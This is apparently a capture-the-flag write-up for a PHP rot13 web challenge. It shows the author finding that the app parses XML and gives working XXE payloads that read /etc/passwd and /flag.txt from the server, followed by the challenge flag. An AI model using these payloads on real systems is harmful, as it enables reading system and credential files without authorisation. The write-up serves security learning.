





# CipherText

# Description

```
Can you find the vulnerability in this "not at all usefull" Web app ? It might be due to not staying up to date.

https://web.ctf.devclub.in/web/3/
```

Not gonna lie, this challenge seemed like super secure and simple to me. It literally just rot13's the text you provide. By this time, I had solved all the other web challs, and I had no single clue of what's happening behind the back. From the challenge hint, it seemed like version update kinda issue, so I checked the PHP version, it was 5.6.14. It was pretty insecure, but which vuln do we exploit? With so many questions storming up my mind, I decided to open my swiss army knife, the legendary **Burp Suite**. Also, note that no hints were released by this time.

# Observation

Here are some of the approaches I thought, which might be happening in the background

Hmm...interesting? I tried entering the following text to confirm my understanding

- Sending array like `text[]=aryaman`



Now, we know that it uses `str_rot13()` in PHP to rot13 our text

- Sending some serialized string, but didn't result in any error, so no use

Still there was no significant progress, I grabbed a cup of coffee and returned after 10 mins, staring at the response in burp, in a hope that it will spit out the flag, when something caught my attention:



Wait...what?! It accepts XML data too. Seems like, we're getting somewhere. Next, I tried injecting some XML data and it accepted it 

```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <text>aryaman</text>
</userInfo>
```

Let's try to leak some more details by causing errors:

Payload:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example pub "titan"> ]>
 <userInfo>
  <text>&example;</text>
 </userInfo>
```

Result: 



On looking up about `DOMDocument::loadXML()` online, I found some interesting [blogs](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection) on exploit POC of this vulnerability.


# Exploitation

Now that we know, it's accepting XML data and parsing them using `DOMDocument::loadXML()`, let's try to exploit it using XXE(XML External Entity injection)

Payload: 

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <text>&xxe;</text>
</creds>
```

It needs to be wrapped in the `creds` tree root, because while parsing the server would try to retrieve the value 
in something like:

```php
$creds = simplexml_import_dom($dom);
$text = $creds->text //our input
```

Result: 



And now we've got some major progress over the challenge, as we've the rot13'ed /etc/passwd, so basically we can read any file in the server --> LFI vulnerability.

# Final payload

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<creds>
    <text>&xxe;</text>
</creds>
```



We got this as the result: `PGS{byjlf_hm_yngrfg_f0sgjner}`

On putting it in [rot13](https://rot13.com), we have our flag. This challenge was probably my favorite challenge in this CTF, as it required awesome observational skills chained with web security knowledge to capture the flag.

Flag: ```CTF{olwys_uz_latest_s0ftware}```